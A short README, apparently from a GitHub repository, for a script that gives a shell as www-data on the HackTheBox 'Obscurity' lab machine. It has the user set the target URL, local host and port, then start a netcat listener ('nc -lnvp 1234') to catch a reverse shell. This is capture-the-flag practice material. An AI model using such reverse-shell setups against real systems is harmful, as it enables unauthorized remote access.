 Obscurity HTB quick shell for www-data
=============
With this script you can easily gain access as www-data to the "obcurity" HTB box.  

Change the IP in the script:
``` 
url='http://10.10.10.168:8080/' 
lhost = '10.10.14.x' #change this
lport = '1234' 
``` 
And set up a listener with nc:
```
nc -lnvp 1234
```
There you go!
Happy hacking!
